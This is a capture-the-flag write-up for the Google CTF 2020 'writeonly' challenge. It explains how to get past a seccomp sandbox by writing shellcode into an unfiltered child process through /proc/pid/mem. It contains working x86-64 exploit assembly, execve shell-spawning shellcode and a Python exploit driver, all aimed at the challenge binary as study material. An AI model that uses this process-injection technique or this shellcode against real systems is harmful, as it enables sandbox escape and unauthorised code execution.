



# Google CTF 2020 - `writeonly`

_tl;dr shellcode to bypass seccomp by injecting shellcode into child process to read the flag_



> This sandbox executes any shellcode you send. But thanks to seccomp, you won't be able to read /home/user/flag.

For this challenge, we are given the binary, the C source code, and a Makefile (bundled in [`chal.zip`](chal.zip)).

## Analyzing the binary

Since we were given source code, I didn't actually have to look at the binary in IDA much. The first thing I looked at was the seccomp rules being applied:

```c
 21 void setup_seccomp() {
 22   scmp_filter_ctx ctx;
 23   ctx = seccomp_init(SCMP_ACT_KILL);
 24   int ret = 0;
 25   ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
 26   ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
 27   ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(close), 0);
 28   ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(stat), 0);
 29   ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(fstat), 0);
 30   ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(lstat), 0);
 31   ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(lseek), 0);
 32   ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(mprotect), 0);
 33   ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(brk), 0);
 34   ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(writev), 0);
 35   ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(access), 0);
 36   ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(sched_yield), 0);
 37   ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(dup), 0);
 38   ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(dup2), 0);
 39   ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(clone), 0);
 40   ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(fork), 0);
 41   ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(vfork), 0);
 42   ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(execve), 0);
 43   ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
 44   ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(kill), 0);
 45   ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(chdir), 0);
 46   ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(fchdir), 0);
 47   ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(gettimeofday), 0);
 48   ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(getuid), 0);
 49   ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(getgid), 0);
 50   ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
 51   ret |= seccomp_load(ctx);
 52   if (ret) {
 53     exit(1);
 54   }
 55 }
```

If the seccomp rules aren't properly written, there's a chance you could use a 32 bit syscall (> 0x40000000) to bypass the filters ([see this writeup from RedRocket](http://blog.redrocket.club/2019/04/11/midnightsunctf-quals-2019-gissa2/)). Unfortunately, the filters check to ensure the syscall number is < 0x40000000, which we can see using [`seccomp-tools`](https://github.com/david942j/seccomp-tools):

```
$ seccomp-tools dump ./chal
[DEBUG] child pid: 624286
shellcode length? 1
reading 1 bytes of shellcode. a
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x1e 0xc000003e  if (A != ARCH_X86_64) goto 0032
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x1b 0xffffffff  if (A != 0xffffffff) goto 0032
 0005: 0x15 0x19 0x00 0x00000001  if (A == write) goto 0031
 0006: 0x15 0x18 0x00 0x00000002  if (A == open) goto 0031
 0007: 0x15 0x17 0x00 0x00000003  if (A == close) goto 0031
 0008: 0x15 0x16 0x00 0x00000004  if (A == stat) goto 0031
 0009: 0x15 0x15 0x00 0x00000005  if (A == fstat) goto 0031
 0010: 0x15 0x14 0x00 0x00000006  if (A == lstat) goto 0031
 0011: 0x15 0x13 0x00 0x00000008  if (A == lseek) goto 0031
 0012: 0x15 0x12 0x00 0x0000000a  if (A == mprotect) goto 0031
 0013: 0x15 0x11 0x00 0x0000000c  if (A == brk) goto 0031
 0014: 0x15 0x10 0x00 0x00000014  if (A == writev) goto 0031
 0015: 0x15 0x0f 0x00 0x00000015  if (A == access) goto 0031
 0016: 0x15 0x0e 0x00 0x00000018  if (A == sched_yield) goto 0031
 0017: 0x15 0x0d 0x00 0x00000020  if (A == dup) goto 0031
 0018: 0x15 0x0c 0x00 0x00000021  if (A == dup2) goto 0031
 0019: 0x15 0x0b 0x00 0x00000038  if (A == clone) goto 0031
 0020: 0x15 0x0a 0x00 0x00000039  if (A == fork) goto 0031
 0021: 0x15 0x09 0x00 0x0000003a  if (A == vfork) goto 0031
 0022: 0x15 0x08 0x00 0x0000003b  if (A == execve) goto 0031
 0023: 0x15 0x07 0x00 0x0000003c  if (A == exit) goto 0031
 0024: 0x15 0x06 0x00 0x0000003e  if (A == kill) goto 0031
 0025: 0x15 0x05 0x00 0x00000050  if (A == chdir) goto 0031
 0026: 0x15 0x04 0x00 0x00000051  if (A == fchdir) goto 0031
 0027: 0x15 0x03 0x00 0x00000060  if (A == gettimeofday) goto 0031
 0028: 0x15 0x02 0x00 0x00000066  if (A == getuid) goto 0031
 0029: 0x15 0x01 0x00 0x00000068  if (A == getgid) goto 0031
 0030: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0032
 0031: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0032: 0x06 0x00 0x00 0x00000000  return KILL
```

At this point I know there wasn't going to be a trick to fully bypass the filters, so I needed to find a way to work with them to read the flag. We can make `open` and `write` syscalls, but we don't have `read` or `mmap`, so we can't read the flag off the file descriptor. I spent a few hours combing the man pages to try and find a trick with one of the other allowed syscalls but came up empty handed.

One other interesting thing this binary does is fork a child process before applying the seccomp filters, so the filters aren't applied to the child process:

```c
113 void check_flag() {
114   while (1) {
115     char buf[4] = "";
116     int fd = check(open("/home/user/flag", O_RDONLY), "open(flag)");
117     if (read(fd, buf, sizeof(buf)) != sizeof(buf)) {
118       err(1, "read(flag)");
119     }
120     close(fd);
121     if (memcmp(buf, "CTF{", sizeof(buf)) != 0) {
122       errx(1, "flag doesn't start with CTF{");
123     }
124     sleep(1);
125   }
126 }
127 
128 int main(int argc, char *argv[]) {
129   pid_t pid = check(fork(), "fork");
130   if (!pid) {
131     while (1) {
132       check_flag();
133     }
134     return 0;
135   }
136 
137   printf("[DEBUG] child pid: %d\n", pid);
138   void_fn sc = read_shellcode();
139   setup_seccomp();
140   sc();
141 
142   return 0;
143 }
```

The `check_flag()` function at L113 is run in the child process (because `pid` will be 0 for the child proc at L130), but all the function does is read the first 4 characters of the flag.

At this point I was stumped, until my teammate suggested something _brilliant_:

> Only idea I've got so far for writeonly is to open /proc/${child_pid}/mem and overwrite its stack to make it print out the flag, or something like that.

This lead me to two realizations:

* I didn't know that a parent process had permissions to write to the proc/mem file for a child process. 
* I _also_ didn't know that the memory permissions (r/w/x on each page) don't apply when accessing via proc/mem (I figured this out later, after wasting a bunch of time on less-than-ideal exploit paths)

## Writing the exploit

I initially tried to do this a few different ways:

* Write shellcode to an unused chunk of .bss, apply execute permissions with `mprotect`, and hijack the saved `rip` value from the `sleep(1)` call on L124 (this was a very dumb idea)
* Then, I tried to overwrite a function in .text that isn't being used (since it's already marked as executable memory), and hijack the saved `rip` again (less dumb but still not very smart)
* Finally, I overwrote the beginning of the `while (1)` loop on L114 to take advantage of the existing control flow for shellcode execution (good enough; detailed below)

Another syscall that was crucial for writing this exploit is `lseek`. In case you are unfamiliar, `lseek` allows you to move the cursor for a file to an arbitrary position. In this case, since we are accessing the proc/mem file (which is a special file used by the kernel to map the entire virtual memory space for a process), we need to use `lseek` to control which starting address to write to.

With this newfound knowledge in hand, I wrote an exploit that did the following:

1. `open` syscall to access the child proc/mem file
2. `lseek` syscall to set the pointer to the location in .text I wanted to overwrite
3. `write` syscall to write my shellcode to the desired location
4. Cross my fingers and hope for a flag

## Step 1: `open`

_Note: please don't take the following as advice on a good way to do this, use [`asm()` in pwntools](https://docs.pwntools.com/en/stable/asm.html) and your life will be much easier._

The goal for this first syscall is to create a file descriptor for the child proc/mem file. Unfortunately, since the PID of the child could change everytime, I needed to parse the output from the program to put in my shellcode, compile it, and then send it to open the proper file.

(It turns out that on the remote, the child PID ended up always being 2, probably due to how the Docker container was setup and the lack of other processes, so I could have just statically compiled it. But where's the fun in that?)

Here's a snippet from my [exploit](exploit.py) that dynamically compiles the shellcode:

```py
 40     with open("sc/inject.S", "r") as f:
 41         inject_code = f.read()
 42 
 43     log.info(f"child pid: {pid}")
 44 
 45     while len(pid) != 8:
 46         pid += "/"
 47 
 48     with open("sc/shellcode.S", "w") as f:
 49         f.write(inject_code.format(pid=pid[::-1].encode().hex()))
 50 
 51     os.system("cd sc && make 64")
 52 
 53     with open("sc/shellcode.bin", "rb") as f:
 54         shellcode = f.read()
```

In my shellcode ([`inject.S`](sc/inject.S)), I used `{}` as a format string so python could substitute the PID (L49 above) with the proper encoding to make it a string:

```asm
 23 // Open the child memory file
 24 // fd = open("/proc/{pid}/mem", 1)
 25 xor     %rdx, %rdx
 26 push    %rdx
 27 mov     $0x6d656d2f2f2f2f2f, %rdx
 28 push    %rdx
 29 mov     $0x{pid}, %rdx
 30 push    %rdx
 31 mov     $0x2f636f72702f2f2f, %rdx
 32 push    %rdx
 33 mov     %rsp, %rdi
 34 xor     %rsi, %rsi
 35 inc     %rsi
 36 xor     %rax, %rax
 37 mov     $0x2, %al
 38 syscall
 39 mov     %rax, %r9
```

The `{pid}` on L24 and L29 both got replaced by the reverse hex encoding of the PID (as a string), so that the string is properly built on the stack. An example ASCII version of that string is:

```
///proc////////2/////mem
```

(You can put as many slashes between directories as you want, the above is equivalent to `/proc/2/mem`. It's a great way to pad strings.)

## Step 2: `lseek`

Now that we have a file descriptor to the child's memory, we need to figure out where exactly to write to. I pulled open the binary in IDA and looked for a suitable address:



After the `sleep(1)` call returns, the program jumps back to `0x40223a`, which is the beginning of the `while (1)` loop at L113. That seems like a solid candidate to overwrite(`r9` has the saved FD for the proc/mem file):

```asm
 46 // lseek(fd, 0x40223a, 0)
 47 mov     %r9, %rdi
 48 mov     $0x40223a, %rsi // jmp dst after sleep in check_flag
 49 xor     %rdx, %rdx
 50 xor     %rax, %rax
 51 mov     $0x8, %al
 52 syscall
```

## Step 3: `write`

Now that we are positioned in the proper location to overwrite with our shellcode, we need to figure out _what_ that shellcode will be. During the CTF, I used a standard ORW (open/read/write) payload to print the flag file, since I wasn't sure how I/O would work if I tried to pop a shell in the child process. I tested this after getting the flag and it worked as it normally would, and so that's the solution I have in the `inject.S` file. The [ORW shellcode](sc/orw.S) is also available to look at, though.

Here is the `execve("//bin/sh", 0, 0)` shellcode I used:

```asm
  7 //execve("//bin/sh", 0, 0)
  8 xor %rdx, %rdx
  9 xor %rsi, %rsi
 10 mov $0x68732f6e69622f2f, %rdi
 11 push %rsi
 12 push %rdi
 13 mov %rsp, %rdi
 14 xor %rax, %rax
 15 mov $0x3b, %al
 16 syscall
```

Now, I needed someway of putting the above shellcode payload into the full payload, since I was using shellcode to write shellcode into the child process. I did this by writing a [quick script](sc/gen_push.py) to generate a series of `mov` and `push` instructions to put the shellcode on the stack in the proper order (yay little endian):

```py
 10 while len(shellcode) % 8 != 0:
 11     shellcode += b"\x90"
 12 
 13 for i in range(len(shellcode), 0, -8):
 14     b = struct.unpack("<Q", shellcode[i-8:i])[0]
 15 
 16     print(f"mov\t${hex(b)}, %r8\npush\t%r8")
```

The output from that script is the first section of this assembly, and the second is making the `write` syscall (`r9` has the saved FD for the proc/mem file):

```asm
 11 // put shellcode on the stack (len 28)
 12 mov     $0x90909090050f3bb0, %r8
 13 push    %r8
 14 mov     $0xc03148e789485756, %r8
 15 push    %r8
 16 mov     $0x68732f6e69622f2f, %r8
 17 push    %r8
 18 mov     $0xbf48f63148d23148, %r8
 19 push    %r8
 20 
 21 mov     %rsp, %r8

[...]

 54 // write(fd, shellcode, 28)
 55 mov     %r9, %rdi
 56 mov     %r8, %rsi
 57 xor     %rdx, %rdx
 58 mov     $28, %dl
 59 xor     %rax, %rax
 60 inc     %rax
 61 syscall
```

## Step 4: Flag please!

At this point, we have injected our shellcode into the child process and just have to wait for `sleep(1)` to return and for our code to be executed! With any luck, a shell should be acquired:



Flag: `CTF{why_read_when_you_can_write}`

Thanks to Google for putting on such a fun CTF! I picked up a few new tricks, which is always nice.
